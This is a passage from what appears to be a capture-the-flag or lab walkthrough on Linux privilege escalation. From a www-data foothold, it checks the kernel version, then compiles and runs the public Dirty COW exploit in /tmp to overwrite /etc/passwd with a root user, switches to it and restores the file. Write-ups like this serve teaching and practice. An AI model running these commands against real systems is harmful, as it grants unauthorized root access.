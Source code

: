 # ALTERNATIVE PRIV ESC

Once we are in the system as www-data, we can check the kernel version using the following command 

```
uname -a
```

After a short search, we find that there are some kernel exploits which could work here. One of them is Dirty COW, we will use this one https://github.com/firefart/dirtycow

We compile it using the following command

```
cd /tmp && gcc -pthread dirty.c -o dirty -lcrypt && ./dirty rootpass
```

We log in as root (now named firefart)

```
su firefart
```

```
mv /tmp/passwd.bak /etc/passwd
```

```
id
```
